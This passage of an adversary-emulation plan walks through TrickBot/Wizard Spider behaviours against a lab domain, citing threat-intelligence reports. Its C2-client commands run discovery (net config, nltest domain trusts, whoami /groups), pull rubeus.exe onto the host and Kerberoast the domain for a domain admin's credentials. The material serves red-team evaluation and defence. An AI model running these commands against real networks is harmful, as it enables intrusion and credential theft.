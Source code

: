 ```bash
# Trickbot gathers domain specfic/client specfic information
./evalsC2client.py --set-task TrickBot-Implant "net config workstation >> discovery.txt"
```

```bash
./evalsC2client.py --set-task TrickBot-Implant "nltest /domain_trusts /all_trusts >> discovery.txt"
```

```bash
# TrickBot can identify the groups the user on a compromised host belongs to.[7]

./evalsC2client.py --set-task TrickBot-Implant "whoami /groups >> discovery.txt"
```

#### :microscope: Cited Intelligence

* <https://www.securityartwork.es/wp-content/uploads/2017/07/Trickbot-report-S2-Grupo.pdf>
* <https://www.fidelissecurity.com/threatgeek/2016/10/trickbot-we-missed-you-dyre>
* <https://blog.trendmicro.com/trendlabs-security-intelligence/trickbot-shows-off-new-trick-password-grabber-module/>
* <https://www.cybereason.com/blog/dropping-anchor-from-a-trickbot-infection-to-the-discovery-of-the-anchor-malware>
* <https://eclypsium.com/wp-content/uploads/2020/12/TrickBot-Now-Offers-TrickBoot-Persist-Brick-Profit.pdf>

### Step 6 - Kerberoast the DC

:microphone: `Voice Track:`

In this step Wizard Spider performs Kerberoasting using a public tool, Rubeus.

Through Kerberoasting, Wizard Spider obtains encrypted credentials for the domain admin, vfleming.

Wizard Spider cracks the credentials offline for use in the next step.

*Note: offline cracking isn't performed due to time constraints; its also not in scope for the evaluation, so we skip the behavior.*

---

#### ☣️ Procedures

```bash
# Wizard Spider has used Rubeus, MimiKatz Kerberos module, and the Invoke-Kerberoast cmdlet to steal AES hashes.[6][3][2][8]

./evalsC2client.py --set-task TrickBot-Implant "get-file rubeus.exe"
```

```bash
./evalsC2client.py --set-task TrickBot-Implant "rubeus.exe kerberoast /domain:oz.local"
```

#### :microscope: Cited Intelligence

* <https://us-cert.cisa.gov/ncas/alerts/aa20-302a>
* <https://www.fireeye.com/blog/threat-research/2020/10/kegtap-and-singlemalt-with-a-ransomware-chaser.html>
* <https://thedfirreport.com/2020/10/08/ryuks-return/>
* <https://thedfirreport.com/2020/11/05/ryuk-speed-run-2-hours-to-ransom/>
